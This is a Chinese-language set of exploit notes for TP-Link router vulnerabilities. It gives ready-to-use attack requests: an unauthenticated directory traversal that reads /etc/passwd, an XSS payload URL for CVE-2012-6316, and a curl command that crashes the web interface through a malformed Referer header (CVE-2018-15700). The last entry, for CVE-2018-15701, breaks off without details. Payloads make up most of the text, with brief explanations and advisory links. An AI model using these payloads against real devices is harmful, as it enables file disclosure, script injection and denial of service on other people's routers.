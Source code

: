 基于Web的管理界面中的目录遍历漏洞允许远程恶意用户通过URL参数读取任意文件。（包括泄露密码）

发包
```
Request:
GET /help/../../etc/passwd HTTP/1.1
Host: 192.168.178.2
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:14.0) Gecko/20100101 Firefox/14.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de-de,de;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://192.168.178.2/help/

==&gt;&gt; no authentication needed!!!
```


## CVE-2012-6316
- xss
- wr841N 3.13.9
参考 https://seclists.org/fulldisclosure/2012/Dec/93

利用方法
```

http://192.168.0.1/userRpm/NoipDdnsRpm.htm?provider=3&username=a1234</scri
pt><script>alert(1)</script>12aaa34f5be&pwd=password&cliUrl=&Save=Save
```
## CVE-2018-15700
- 	0.9.1 4.16 V0348.0
- 	拒绝服务

利用

http_parser_main函数中的NULL指针取消引用错误。问题始于memcmp在“ Referer”字段的前七个字节中查找“ http：//”。只有成功，才会初始化“ Referer”字符串变量。当memcmp失败时，程序流程仍将继续并尝试对未初始化的NULL字符串进行字符串操作
```

curl 'http://tplinkwifi.net/' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: DOS' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' --compressed
```

参考

https://zh-cn.tenable.com/security/research/tra-2018-27?tns_redirect=true

## CVE-2018-15701

- 	0.9.1 4.16 V0348.0
- 	拒绝服务

